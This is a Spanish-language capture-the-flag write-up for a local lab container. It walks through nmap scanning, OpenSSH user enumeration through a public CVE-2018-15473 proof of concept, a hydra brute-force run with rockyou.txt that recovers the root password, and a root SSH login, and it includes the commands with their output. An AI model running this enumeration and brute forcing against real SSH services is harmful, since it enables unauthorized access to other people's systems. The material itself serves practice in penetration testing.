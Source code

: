 #ssh #hydra

![](../../../Images/Pasted%20image%2020241008071626.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

## SSH (22 TCP Port)

Investigando el servicio vemos que es una versión antigua que tiene una vulnerabilidad numerada como [CVE-2018-15473](https://nvd.nist.gov/vuln/detail/cve-2018-15473) el cual nos permite una enumeración de usuarios. Con este [PoC](https://github.com/Sait-Nuri/CVE-2018-15473) y una lista de usuarios podemos conseguir que usuarios existen en el sistema

```
> python2 CVE-2018-15473.py  172.17.0.2 -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt

/home/rh4ps00dy/.local/lib/python2.7/site-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] root is a valid username
[-] admin is an invalid username
[-] test is an invalid username
[-] guest is an invalid username
[-] info is an invalid username
[-] adm is an invalid username
[-] mysql is an invalid username
[-] user is an invalid username
[-] administrator is an invalid username
[-] oracle is an invalid username
[-] ftp is an invalid username
[-] pi is an invalid username
[-] puppet is an invalid username
[-] ansible is an invalid username
[-] ec2-user is an invalid username
[-] vagrant is an invalid username
[-] azureuser is an invalid username
Valid Users:
root
```

Desucribros

```

```

Ahora, con el nombre de usuario encontrado podemos hacer fuerza bruta contra el servicio SSH con **hydra**.

```
> hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 12:54:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 12:54:31 
```

Conseguimos acceder al sistema mediante SSH directament con el usuario ``root`` y todos los privilegios del sistema.

```
> ssh root@172.17.0.2

The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@347cd6f2e506:~# whoami
root
```
